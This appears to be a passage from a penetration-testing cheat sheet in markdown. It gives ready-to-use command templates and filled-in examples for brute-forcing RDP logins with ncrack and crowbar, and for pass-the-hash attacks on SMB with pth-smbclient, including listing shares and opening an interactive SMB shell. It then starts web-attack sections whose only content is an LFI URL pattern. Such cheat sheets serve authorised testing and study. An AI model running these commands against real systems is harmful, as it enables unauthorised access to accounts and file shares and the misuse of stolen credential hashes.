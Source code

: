 ### NCRACK

ncrack -vv --user/-U <username/username_wordlist> --pass/-P <password/password_wordlist> <target_ip>:3389

```
ncrack -vv --user user -P wordlist.txt 192.168.0.32:3389
```

### Crowbar

crowbar -b rdp <-u/-U user/user_wordlist> -c/-C <password/password_wordlist> -s <target_ip>/32 -v

```
crowbar -b rdp -u user -C password_wordlist -s 192.168.0.16/32 -v
```

## Pass the hash

### Smb pass the hash

#### Tool:

[pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)


### Listing shared folders

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  -L <target_ip> \\\\<target_ip>\\ <hash>

```
sudo pth-smbclient --user=user --pw-nt-hash -m smb3  -L 192.168.0.24 \\\\192.168.0.24\\ ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

### Interactive smb shell

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  \\\\<target_ip>\\shared_folder <hash>

```
sudo pth-smbclient --user=user --pw-nt-hash -m smb3 \\\\192.168.0.24\\folder ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

## Web Application

### Web Remote code


### LFI (Local File Inclusion)

Situation

```
http://<target>/index.php?parameter=value
```
